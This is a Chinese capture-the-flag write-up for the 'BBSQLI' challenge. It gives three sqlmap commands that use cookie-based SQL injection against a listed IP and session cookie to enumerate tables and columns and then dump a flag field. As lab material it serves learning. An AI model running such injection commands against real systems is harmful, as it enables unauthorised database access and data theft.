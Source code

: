 # BBSQLI_WP

## 0x00

此题有两种做法（请教了营里两个大佬）,sqlmap的cookie注入或者盲注

以下是sqlmap的方法，找了一份sqlmap使用教程

[sqlmap使用教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)

## 0x01

第一步，cookie注入猜解表

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --table --level 2
```

注：如有选择Y or n,一路n即可

发现一个带有flag字样的表

![BBSQLI_01](images/BBSQLI_01.png)

第二步，根据表猜解字段

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --columns -T [GDJM_flag] --level 2
```

![BBSQLI_02](images/BBSQLI_02.png)

ok,flag基本在这了

第三步，猜解字段内容

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --dump -T [GDJM_flag] -C "flag" --level 2
```

![BBSQLI_03](images/BBSQLI_03.png)

